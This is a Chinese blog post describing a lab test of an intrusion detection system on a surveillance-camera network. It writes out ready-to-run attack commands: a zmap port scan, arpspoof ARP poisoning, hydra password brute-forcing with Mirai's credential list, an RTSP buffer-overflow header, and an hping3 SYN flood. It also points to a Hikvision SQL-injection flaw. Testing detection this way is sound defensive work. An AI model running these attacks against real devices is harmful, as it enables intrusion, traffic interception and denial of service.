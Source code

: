 ```yaml
---
layout: post
title: "几种攻击简单测试"
date: 2018-05-20 20:00:00
author: "Johan Niu"
header-img : "img/post-bg-os-metro.jpg"
tags:
    - 攻击工具
    - 安全
    - 学习
       
---
```


# 几种攻击简单测试

## 1 端口探测

使用`zmap`扫描工具对视频监控网络进行端口扫描。

命令如下：

	zmap -p 23 -B 50k 192.168.12.0/24 -b telnet_portscan.csv;

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/portscan.png)

对192.168.12.0/24网段的16台摄像头的23端口进行端口扫描，共产生16条报警记录信息。

### 1.1 端口扫描工具

|工具 |状态
|---|---
|nmap | 有状态 
|zmap | 无状态 
|massscan | 无状态 

基于 `zmap` 的应用层扫描器 **`zgrab`**

zgrab 是基于zmap无状态扫描的应用层扫描器,可以自定义数据包,以及ip,domain之间的关联。

可用于快速指纹识别爆破等场景。

## 2 ARP欺骗

使用`arpspoof`攻击在视频监控内网进行ARP投毒。

对摄像头`192.168.12.143`进行ARP 攻击。

先打开 IP 转发:

	echo 1 > /proc/sys/net/ipv4/ip_forward

然后使用 arpspoof 命令进行欺骗, 命令使用方法如下:

	arpspoof -i <网卡名> -t <欺骗的目标> <我是谁>


实际命令如下：

	arpspoof -i eth0 -t 192.168.12.143 192.168.12.1;

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/arpspoof.png)

## 3 口令探测

利用开源工具`hydra`进行口令探测攻击。

这里利用`Mirai`病毒中的user与password表作为默认的口令库，

然后加入视频监控设备厂商的默认口令库。形成user.txt、passwd.txt文件。

从ssh、telnet、ftp协议服务方面测试入侵检测系统对口令探测的检测能力。

命令如下（其中ip.list即为192.168.12.0/24网段的所有视频监控ip）：

	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list ssh;
	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list telnet;
	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list ftp

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/weakpasswd.png)
	

## 4 缓冲区溢出

利用存在`RTSP`协议的缓冲区溢出漏洞的摄像头进行缓冲区溢出攻击测试。
`RTSP`协议的交互需要 `DESCRIBE reques` 请求，构造 `RTSP DESCRIBE option` 的请求数据包如下：

	RTSP_DESCRIBE_HEADERS_MAP = {
	    "CSeq": "3",
	    "Accept": "application/sdp",
	    "Authorization": "Digest " + 'A' * 10000,
	    "User-Agent": "VLC media player"
	}
	
测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/buffer.png)

## 5 模拟DDOS攻击

使用`hping3`开源工具进行DOS攻击测试，

采用`SYN Flooding`对摄像头192.168.12.143进行DOS攻击，验证入侵检测系统是否能够检测出来。

命令如下：

	hping3 -I eth0 -a 192.168.12.27 -S 192.168.12.143 -p 80 -i u1000；

![](http://niubencoolboy.github.io/img/attack/ddos.png)

## 6 Web攻击

本测试采用海康威视摄像头存在的SQL注入漏洞进行Web攻击，利用`SSV-91768`（seebug 漏洞编号）漏洞信息，伪造请求进行注入。

![](http://niubencoolboy.github.io/img/attack/web.png)







